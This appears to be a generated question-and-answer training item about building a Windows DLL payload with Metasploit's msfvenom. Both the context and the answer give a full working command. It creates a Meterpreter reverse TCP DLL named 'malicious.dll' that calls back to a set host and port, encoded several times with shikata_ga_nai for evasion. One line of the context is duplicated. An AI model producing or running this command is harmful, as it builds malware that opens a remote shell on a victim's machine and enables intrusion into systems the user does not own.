 Context:```

`

# How to generate a dll with msfvenom
This command uses `msfvenom` to create a DLL payload that establishes a reverse TCP connection to the specified attacker's IP and port.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f dll -e x86/shikata_ga_nai -i 5 -o malicious.dll
Payload advanced options (windows/x64/meterpreter/reverse_tcp):
Payload advanced options (windows/x64/meterpreter/reverse_tcp):

 Question: Generate a command to create a Windows DLL payload using Metasploit’s msfvenom tool, designed for a reverse TCP connection. The command should include the necessary payload settings (windows/meterpreter/reverse_tcp), specify LHOST and LPORT as appropriate, and ensure that the output format is set to DLL.  

 Your response: 
```

Output:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f dll -e x86/shikata_ga_nai -i 5 -o malicious.dll
```
